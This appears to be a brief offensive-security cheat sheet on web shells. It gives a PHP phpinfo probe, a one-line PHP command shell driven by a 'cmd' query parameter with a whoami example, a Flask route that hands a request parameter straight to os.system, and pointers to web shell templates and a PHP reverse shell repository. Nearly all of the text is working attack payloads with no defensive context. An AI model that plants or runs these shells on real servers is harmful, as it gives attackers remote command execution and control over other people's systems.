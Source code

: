 # Routes

Check `/usr/share/webshells` to pull templates

### Languages

### PHP

Test if data can render:

```php
# Initial test, gather info
<?php phpinfo(); ?>

# RCE (exmaple execution: example.com/uploads/shell.php?cmd=whoami)
<?php system($_GET['cmd']); ?>
```

### Python

```python
@app.route('/rs')
def rce():
    return os.system(request.args.get('cmd'))
```


### Shells

XAMPP Shells: https://github.com/ivan-sincek/php-reverse-shell/tree/master

